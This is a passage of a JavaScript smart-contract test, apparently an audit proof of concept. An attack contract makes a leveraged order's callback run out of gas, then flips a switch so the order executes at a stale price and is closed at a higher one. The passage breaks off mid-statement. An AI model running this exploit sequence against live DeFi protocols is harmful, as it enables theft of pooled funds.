       it("Old price order execution", async () => {
      const path = [];
     const UsdcBal = expandDecimals(50 * 1000, 6);
     expect(await getOrderCount(dataStore)).eq(0);

       for (let i = 0; i < 63; i++) {
      if (i % 2 == 0) path.push(ethUsdMarket.marketToken);
      else path.push(ethUsdSpotOnlyMarket.marketToken);
       }
   
        const params = {
        account: attackContract,
         callbackContract: attackContract,
        callbackGasLimit: 1900000,
        market: ethUsdMarket,
         minOutputAmount: 0,
         initialCollateralToken: usdc, // Collateral will get swapped to ETH by the swapPath -- 50k/$5k = 10 ETH Collateral
         initialCollateralDeltaAmount: UsdcBal,
       swapPath: path,
       sizeDeltaUsd: decimalToFloat(200 * 1000), // 4x leverage -- position size is 40 ETH
       acceptablePrice: expandDecimals(5001, 12),
        orderType: OrderType.MarketIncrease,
        isLong: true,
        shouldUnwrapNativeToken: false,
        gasUsageLabel: "createOrder",
         };

      // Create a MarketIncrease order that will run out of gas doing callback
      await createOrder(fixture, params);
      expect(await getOrderCount(dataStore)).eq(1);
      expect(await getAccountPositionCount(dataStore, attackContract.address)).eq(0);
       expect(await getPositionCount(dataStore)).eq(0);
        expect(await getAccountPositionCount(dataStore, attackContract.address)).eq(0);

       await expect(executeOrder(fixture)).to.be.reverted;

       await mine(50);

       await attackContract.flipSwitch();

      expect(await getOrderCount(dataStore)).eq(1);

       await executeOrder(fixture, {
      minPrices: [expandDecimals(5000, 4), expandDecimals(1, 6)],
      maxPrices: [expandDecimals(5000, 4), expandDecimals(1, 6)],
       });

      expect(await getOrderCount(dataStore)).eq(0);
      expect(await getAccountPositionCount(dataStore, attackContract.address)).eq(1);
       expect(await getPositionCount(dataStore)).eq(1);

       await handleOrder(fixture, {
        create: {
        account: attackContract,
        market: ethUsdMarket,
        initialCollateralToken: wnt,
        initialCollateralDeltaAmount: 0,
        sizeDeltaUsd: decimalToFloat(200 * 1000),
        acceptablePrice: 6001,
        orderType: OrderType.MarketDecrease,
        isLong: true,
        gasUsageLabel: "orderHandler.createOrder",
        swapPath: [ethUsdMarket.marketToken],
       },
       execute: {
        minPrices: [expandDecimals(6000, 4), expandDecimals(1, 6)],
        maxPrices: [expandDecimals(6000, 4), expandDecimals(1, 6)],